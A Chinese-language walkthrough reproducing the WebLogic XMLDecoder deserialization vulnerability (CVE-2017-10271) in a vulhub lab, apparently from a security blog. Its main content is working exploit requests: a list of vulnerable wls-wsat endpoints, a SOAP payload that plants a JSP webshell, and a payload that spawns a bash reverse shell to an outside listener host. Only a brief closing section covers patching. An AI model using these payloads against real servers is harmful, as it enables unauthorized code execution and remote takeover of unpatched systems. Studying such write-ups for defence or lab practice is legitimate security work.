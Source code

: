 # weblogic-XMLDecoder反序列化（CVE-2017-10271）

漏洞复现-CVE-2017-10271

### 0x00 前言

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

影响版本 : 10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0, 12.2.1.2.0

### 0x01 环境搭建

这里是用的vulhub进行环境搭建

![image-20230307195339345](https://s2.loli.net/2023/03/07/oXxOFEWLUJgRysQ.png)



### 0x02 工具利用

1、`WeblogicVuln`

![image-20230308195150790](https://s2.loli.net/2023/03/08/mVaYLxNrtFQnzjA.png)

![image-20230308195312378](https://s2.loli.net/2023/03/08/mCDSn93UPsKupQg.png)

### 0x03 手工利用

```
# 漏洞地址，这些漏洞地址均可尝试
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

1、准备好webshell

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("webshell"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

2、打开burp抓包，改包后重发

![image-20230308200608161](https://s2.loli.net/2023/03/08/l1W6uB4mDnV82PS.png)

访问`http://192.168.12.130:7001/bea_wls_internal/test.jsp`验证漏洞是否存在

![image-20230308200715111](https://s2.loli.net/2023/03/08/IO7UAL31M6WXc9t.png)

3、改包后再次发送，kali打开监听

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your_ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.12.131/4444 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![image-20230308202400503](https://s2.loli.net/2023/03/08/qWLJwhxIOrH1UVR.png)

4、获取shell

![image-20230308202554254](https://s2.loli.net/2023/03/08/TdcqUKJnjWbFHay.png)

### 0x04 修复方案

```
官方补丁修复 
前往Oracle官网下载10月份所提供的安全补丁 
http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
```

